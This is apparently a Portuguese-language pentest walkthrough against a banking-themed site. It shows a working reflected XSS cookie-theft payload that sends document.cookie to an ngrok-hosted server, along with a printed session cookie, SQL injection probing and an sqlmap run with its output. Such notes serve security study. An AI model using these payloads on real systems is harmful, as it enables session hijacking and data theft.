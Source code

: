 Testando comandos na URL

`www.bancocn.com/cat.php?id=<script>new Image(document.cookie)</script>`
- **output [COOKIE]**: PHPSESSID=n1lv5k2veefokdcooaak68mic1

Rodar um servidor `http` com Python e Ngrok

```bash
python -m http.server
```

Implementar o código no site.

`http://www.bancocn.com/cat.php?id=<script src="<NGROK URL>/script.js"></script>`

Ativando servidores

```bash
python -m http.server
ngrok http <PYTHON SERVER PORT>
```

**/script.js**

```js
new Image().src = "<NGROK URL>/?" + document.cookie
```

----

### SQL Injection

Ao executar o comando acima, descobri também que o site apresentou o erro de sintaxe para erros de banco de dados, especificamente, para MariaDB.

```txt
http://www.bancocn.com/cat.php?id='
```

**SQLMap Official Site**: https://sqlmap.org/

```bash
sudo apt-get install sqlmap
```

Mesmo descobrindo que o site possui falha de escrita SQL, o `sqlmap` não conseguiu fazer uma busca pelos bancos de dados na aplicação e respondeu com o seguinte erro

**Comando sqlmap**: `sqlmap -u "www.bancocn.com/cat.php?id=1" --dbs --batch`

```bash
[09:42:00] [WARNING] GET parameter 'id' does not seem to be injectable
[09:42:00] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. Please retry with the switch '--text-only' (along with --technique=BU) as this case looks like a perfect candidate (low textual content along with inability of comparison engine to detect at least one dynamic parameter). If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'
[09:42:00] [WARNING] HTTP error codes detected during run:
403 (Forbidden) - 86 times
```
